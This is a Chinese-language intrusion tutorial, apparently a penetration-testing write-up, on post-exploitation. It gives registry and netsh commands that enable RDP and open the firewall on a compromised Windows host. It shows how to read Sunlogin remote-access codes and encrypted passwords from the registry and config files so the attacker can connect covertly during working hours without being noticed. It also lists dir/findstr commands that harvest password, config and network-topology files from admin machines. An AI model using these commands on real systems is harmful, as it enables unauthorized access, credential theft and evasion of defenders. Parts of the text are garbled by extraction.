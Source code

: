   
 **向日葵读取密码** 拿到机器的账号密码之后，若机器开启了3389端口可以选择rdp远程桌面过去，没开的话可以开启3389端口进行远程连接

  *   *   *   *   * 

    
    
    #执行以下命令操作注册表来开启机器3389远程桌面服务  REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f    
    #使用以下命令添加防火墙放行策略  netsh firewall add portopening protocol = TCP port = 3389 name = rdp

但如果是正常办公时间，贸然登录过去会很容易引起对方的发现，若进程中有sunlogin进程，可以读取识别码和验证码，通过向日葵连接相对比较隐蔽  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092113.png)

  

 **注册表读取配置信息：**

  *   *   *   *   *   *   *   *   * 

    
    
     reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginInfo  reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginGreenInfo    
    向日葵默认配置文件路径:  安装版：C:\\Program Files\\Oray\\SunLogin\\SunloginClient\\config.ini  便携版：C:\\ProgramData\\Oray\\SunloginClient\\config.ini  本机验证码参数：encry\_pwd  本机识别码参数：fastcode(去掉开头字母)  sunlogincode：判断用户是否登录状态

 **读注册表：**  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092114.png)

  

 **读默认配置文件：**
fastcode去掉前面的数字k为本机识别码`278263893`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092116.png)

  

使用脚本进行解密获得本机验证码![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092118.png)

  

 **运维机**

横向的时候优先拿运维机，一般运维机存储着大量的账号密码信息，比如这次无意中发现的运维机器使用的是弱口令`administrator/111111`

  
另外还可以通过cs插件查看机器历史登录IP对运维人员进行锁定  

拿下后可通过命令行快速收集服务器、网络拓扑、密码本、公司信息等重要文件。  

  *   *   *   *   *   *   *   *   *   * 

    
    
    dir /a /s /b d:\\" \*.txt"   dir /a /s /b d:\\"\* pass \*"   dir /a /s /b d:\\"\* login \*"   dir /a /s /b d:\\"\* user \*"  dir /a /s /b c:\\password.txt  dir /a /s /b c:\\\*.conf \*.ini\* .inc\* .config   dir /a /s /b c:\\conf.\* config.\*   dir /a /s /b c:\\\*.txt \*.xls\* .xlsx\* .docx | findstr "拓扑"  dir /a /s /b c:\\\*.conf \*.ini\* .inc\* .config | findstr "运维"  dir /a /s /b c:\\\*.txt \*.xls\* .xlsx\* .docx | findstr "密码" >C:\\Users\\1.txt

